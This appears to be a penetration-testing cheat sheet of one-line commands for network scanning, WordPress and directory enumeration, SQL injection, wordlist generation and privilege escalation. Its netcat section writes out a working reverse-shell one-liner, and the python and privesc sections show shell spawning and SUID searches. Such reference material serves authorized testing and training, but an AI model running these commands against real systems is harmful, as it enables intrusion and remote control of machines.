 # Cheat Sheet

## arp-scan
```
sudo arp-scan --interface=ens33 --localnet
```

## wpscan
```
wpscan --api-token ####### --url http://website.com/directory -e --plugins-detection aggressive --ignore-main-redirect --force
```

## nmap
```
nmap -p- x.x.x.x --open
nmap -p21,80,443 x.x.x.x
nmap (-sV / -A) -p21,80,443 x.x.x.x
```

##  gobuster
```
gobuster dir --url http://whatever.com --wordlist /usr/share/wordlists/dirb/common.txt
```

## netcat
```
nc -nlvp 8888 (host listener)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc (host port) >/tmp/f
```

## python
```
python -m http.server (setup a local webserver)
python -c 'import pty;pty.spawn("/bin/bash")' (spawn shell)
python -c 'import os; os.execl("/bin/sh", "sh", "-p")' (spawn shell)
```

## privesc
```
sudo -l
find / -type f -user root -perm -4000 2>/dev/null (find suid files)
```

## crunch
```
# example:
# “bev" + “1 upper char” + “2 num" + “2 lower char” + “1 symbol” + “1995”

# crunch pattern (-t) flags
• , = upper char
• % = number
• @ = lower char
• ^ = symbol

crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
```

## sqlmap
```
sqlmap -u http://website:port/directory --answers="follow=Y" --batch
```

